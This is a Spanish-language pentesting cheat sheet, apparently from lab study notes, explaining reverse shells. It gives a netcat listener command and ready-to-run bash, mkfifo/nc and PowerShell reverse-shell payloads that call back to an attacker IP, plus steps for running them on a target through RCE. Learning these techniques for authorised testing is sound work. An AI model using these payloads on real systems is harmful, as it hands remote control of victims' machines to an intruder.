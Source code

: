 # 🔄 Reverse Shells – Resumen

Una **Reverse Shell** conecta desde el host comprometido **de vuelta** a nuestro equipo, dándonos control.

## 📌 Características
- Rápida y común en pentesting.
- Depende de que el objetivo pueda iniciar conexión hacia nosotros.
- Si se corta, hay que reejecutar el payload.

## 🔹 Preparar listener con Netcat
```bash
nc -lvnp 1234
```
- `-l` → escuchar
- `-v` → verbose
- `-n` → sin DNS
- `-p` → puerto

## 🔹 Obtener nuestra IP
```bash
ip a
```
*(Usar tun0 en HTB)*

## 🔹 Ejemplos de payloads
- **Bash (Linux):**
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
- **PowerShell (Windows):**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## 🔹 Uso
1. Iniciar listener en nuestra máquina.
2. Ejecutar el payload en el objetivo (explotando RCE).
3. Recibir conexión y ejecutar comandos.

📎 Tip: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) tiene una lista completa.
